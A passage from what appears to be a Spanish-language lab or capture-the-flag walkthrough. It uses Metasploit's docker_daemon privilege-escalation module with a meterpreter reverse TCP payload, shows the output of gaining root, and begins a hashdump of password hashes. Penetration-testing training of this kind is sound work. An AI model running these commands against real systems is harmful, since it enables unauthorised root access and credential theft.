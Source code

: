 En este caso nos ha encontrado unos cuantos `exploits` los cuales podemos aprovechar, entre ellos uno interesante llamado `docker_daemon` para escalar privilegios.

```
exploit/linux/local/docker_daemon_privilege_escalation
```

Por lo que vamos a entrar en el:

```shell
use exploit/linux/local/docker_daemon_privilege_escalation
```

Esto es una escalada de privilegios a traves de una vulnerabilidad que tenia `docker`.

Lo configuraremos de la siguiente forma:

```shell
set session 1
set payload linux/x86/meterpreter/reverse_tcp
set LHOST <IP>
exploit
```

Info:

```
[*] Started reverse TCP handler on 192.168.16.139:4444 
[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: python
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Docker daemon is accessible.
[+] The target is vulnerable.
[*] Writing payload executable to '/tmp/sGcXSLhva'
[*] Executing script to create and run docker container
[*] Sending stage (1017704 bytes) to 192.168.16.129
[+] Deleted /tmp/sGcXSLhva
[*] Meterpreter session 2 opened (192.168.16.139:4444 -> 192.168.16.129:44925) at 2024-11-21 05:42:45 -0500
[*] Waiting 60s for payload

meterpreter >
```

Y por lo que vemos lo ha conseguido, si ahora hacemos un `getuid` para saber que usuario somos:

```
Server username: root
```

Veremos que ya somos `root`.

Ahora si por ejemplo queremos dumpearnos los hashes, si podriamos:

```shell
run post/linux/gather/hashdump
```

Info:
